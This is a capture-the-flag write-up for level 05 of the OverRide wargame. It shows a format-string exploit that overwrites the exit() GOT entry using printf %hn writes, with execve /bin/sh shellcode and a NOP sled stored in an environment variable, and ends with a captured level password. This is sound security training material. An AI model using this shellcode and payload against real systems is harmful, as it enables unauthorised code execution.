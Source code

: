 # Level 05

Once logged in, you will see a binary.

```
$ ssh 164.92.144.154 -p 4242 -l level05
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level05@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$ ls
level05
```

Okay, let's run the program.

```
level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$ ./level05
AAAAAAAAAAAAAaaaaaaaaaaaAAaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level05@OverRide:~$
```

By looking at the execution result of the program, two things can be observed,
- the uppercase letters will be turned into lower case letters
- if the length of input is too long, the output will only print 99 characters

By looking at the decompiled source (or with GDB), the function uses `printf`, so there is a chance for using format string attack.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

In above, the call for `exit()` is used, and we can overrite the exit() in the GOT(Global Offset Table) section.

To find the GOT address of exit, the following command needs to be proceed:

```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
level05@OverRide:~$
```

We now have an address for exit, `0x080497e0`, we need to provide a payload that overwrites a shellcode.

```
# a shellcode
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

# store create payload that stores shellcode

export PAYLOAD=$(python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

```

With the shellcode stored into the environment variable, a program can be writeen to access the address of the shellcode

```
# /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	printf("env address: %p\n", getenv(argv[1]));
	return (0);
}
[...]
level05@OverRide:/tmp$ gcc -m32 getenv.c -o getenv  # for 32bit
level05@OverRide:/tmp$ ./getenv PAYLOAD
env address: 0x7fffffffebbd

### remember, the env. variable will change of the execution point, so let's run the program on different location ###
level05@OverRide:~$ /tmp/getenv PAYLOAD
0xffffdefd
```

We now have address we want(=`exit()`) to overwrite: `0x080497e0`, with the address of the stack `0xffffdefd`

Because the address too big, we overwrite the target 2 bytes each time. (the first 4 bytes of address can be ignored)

for the first 2 bytes, we input the data `0xdefd - 0x8 = 0xebb5(57077)` (because what the payload will prit out is 8 bytes=> XXXX that creates the offset of the printf already, and each address is 4 bytes XXXXXXX), then we overwrite the next two bytes `0xffff - 0xdefd = 0x2102 (8450)`

let's try out

```
level05@OverRide:~$ echo $(python -c 'from struct import pack; print(pack("I", 0x080497e0) + pack("I", 0x080497e2) + "%57077u%10$hn" + "%8450u%11$hn")') | ./level05
[...]
[...]
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
level05@OverRide:~$
```
